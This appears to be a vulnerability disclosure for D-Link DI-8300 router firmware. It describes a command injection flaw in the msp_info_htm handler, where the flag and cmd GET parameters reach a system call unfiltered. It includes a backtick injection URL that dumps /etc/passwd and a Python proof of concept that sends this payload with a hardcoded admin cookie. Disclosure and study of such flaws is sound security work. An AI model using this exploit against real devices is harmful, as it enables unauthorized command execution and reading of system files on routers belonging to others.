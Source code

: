 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the msp_info_htm function, parameters are passed through the GET request mode for the flag and cmd variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the flag and cmd parameter concatenate the command and run the system function without filtering the following characters.

![Pasted image 20240806104931](https://github.com/user-attachments/assets/a6ea5174-612e-4820-9701-c6431432ae00)


```
http://192.168.0.1/msp_info.htm?flag=cmd&cmd=`cat%20/etc/passwd%3EAAA.txt`
```

![Pasted image 20240806105447](https://github.com/user-attachments/assets/63204499-a577-4b30-9a3c-61bf3c10bc8c)

Check the firmware shell. The command is successfully executed

![Pasted image 20240806105419](https://github.com/user-attachments/assets/91286a4f-c1d4-4233-abd6-d1d98465f98e)


# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3EAAA.txt`"

url = "http://"+ip+"/msp_info.htm?flag=cmd&cmd="+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
